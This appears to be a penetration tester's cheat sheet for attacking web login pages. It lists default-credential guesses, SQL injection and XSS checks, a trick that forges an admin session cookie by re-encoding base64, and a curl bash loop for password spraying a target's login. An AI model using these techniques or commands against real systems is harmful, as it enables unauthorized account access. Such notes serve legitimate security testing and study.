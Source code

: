 https://www.hackingarticles.in/multiple-ways-to-exploiting-http-authentication/
#### Guessing
admin:admin
administrator:administrator
admin:`NAMEOFTOOL` (remember nexus?)
#### Googling
- [ ] Google for Default Creds!!
#### SQLi
- [ ] Bypass login with SQLi (Try 1 field at a time, then both).
[[SQL Payload]]
- [ ] Inject into registration page, then login page
#### XSS
- [ ] Test for XSS.
[[7._XSS]]
#### Register a user - Cookie evaluation
Sometimes you just need to register as a new user, and evaluate after.
Check cookies
`eyJ1c2VybmFtZSI6ImFkbWluMiJ9`
```bash - kali
echo "eyJ1c2VybmFtZSI6ImFkbWluMiJ9" | base64 -d
```
```bash - kali
echo '{"username":"admin"}' | base64
```
`eyJ1c2VybmFtZSI6ImFkbWluIn0K`
#### Admin role assignment
Register a new user while proxy through Burp / ZAP.
Look at the response for a role assignment:
```
"role": "admin",
```
#### Login page password spray curl bash script
```bash - kali
for user in $(cat users.txt); do curl 'http://$TARGET/login' --data "{\"username\":\"${user}\",\"password\":\"password\"}" -H "Content-Type: application/json" 2>/dev/null | grep -v Unauthorized && echo $user ; done
```
http://www.critifence.com/default-password-database/
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv
https://www.fortypoundhead.com/tools_dpw.asp
https://default-password.info/
